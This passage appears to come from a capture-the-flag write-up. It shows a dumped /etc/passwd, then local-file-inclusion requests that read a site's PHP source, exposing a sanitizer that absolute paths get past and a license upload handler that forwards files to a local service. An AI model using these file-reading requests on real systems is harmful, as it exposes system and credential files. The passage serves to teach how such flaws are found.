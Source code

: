 ```
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
_chrony:x:105:112:Chrony daemon,,,:/var/lib/chrony:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
vagrant:x:1000:1000::/vagrant:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
dev:x:1001:1001::/home/dev:/bin/bash
```

To understand better how the website works lets see the `index.php` source-code:
`/index.php?page=/var/www/html/index.php`
```php
<?php
function sanitize_input($param) {
    $param1 = str_replace("../","",$param);
    $param2 = str_replace("./","",$param1);
    return $param2;
}

$page = $_GET['page'];
if (isset($page) && preg_match("/^[a-z]/", $page)) {
    $page = sanitize_input($page);
} else {
    header('Location: /index.php?page=default.html');
}

readfile($page);
?>
```

So here we have our local-file-inclusion vulnerability.
Now lets see how the `activate_license.php` file works when we press the "SUBMIT" button:
`/index.php?page=/var/www/html/activate_license.php` 
```php
<?php
if(isset($_FILES['licensefile'])) {
    $license      = file_get_contents($_FILES['licensefile']['tmp_name']);
    $license_size = $_FILES['licensefile']['size'];

    $socket = socket_create(AF_INET, SOCK_STREAM, SOL_TCP);
    if (!$socket) { echo "error socket_create()\n"; }

    if (!socket_connect($socket, '127.0.0.1', 1337)) {
        echo "error socket_connect()" . socket_strerror(socket_last_error()) . "\n";
    }

    socket_write($socket, pack("N", $license_size));
    socket_write($socket, $license);

    socket_shutdown($socket);
    socket_close($socket);
}
?>
```
